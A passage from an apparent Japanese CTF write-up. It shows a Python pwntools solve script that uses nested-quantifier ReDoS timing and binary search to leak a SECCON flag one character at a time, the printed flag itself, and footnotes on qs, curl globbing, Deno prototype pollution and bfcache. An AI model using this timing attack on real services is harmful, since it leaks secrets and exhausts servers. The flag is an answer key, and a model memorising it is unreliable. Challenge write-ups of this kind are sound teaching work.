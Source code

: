 ```python
        io.sendline(f">0 regex \\^(((((((((((((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*@ ReDoS-{i}".encode())
    io.recvuntil(f"ReDoS-{REDOS_POWER - 1}".encode(), timeout=TIMEOUT)
    io.send("\x04")  # Ctrl+D

    t1 = time.time()
    io.recvall(timeout=TIMEOUT)
    t2 = time.time()
    io.close()
    return t2 - t1


def get_rule(index: int, next_chars: str) -> str:
    def escape(s): return s.replace("{", "\\\\{").replace("}", "\\\\}")
    expr = "".join([
        "\\^",
        "[",
        escape(next_chars),
        "]"
    ])
    return f"{index} regex {expr}"


CHARS = "_}" + string.ascii_letters + string.digits

flag = "SECCON{"
while not flag.endswith("}"):
    left = 0
    right = len(CHARS)
    while right - left > 1:
        mid = (left + right)//2
        t_left = get_time(get_rule(len(flag), CHARS[:mid]))
        t_right = get_time(get_rule(len(flag), CHARS[mid:]))
        print(f"{t_left = }, {t_right = }")
        if t_left > t_right:
            right = mid
        else:
            left = mid
    flag += CHARS[left]
    print(flag)
print(f"{flag = }")
```

### Flag

```
SECCON{reDo5L1fe}
```

## [misc] noiseccon


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。
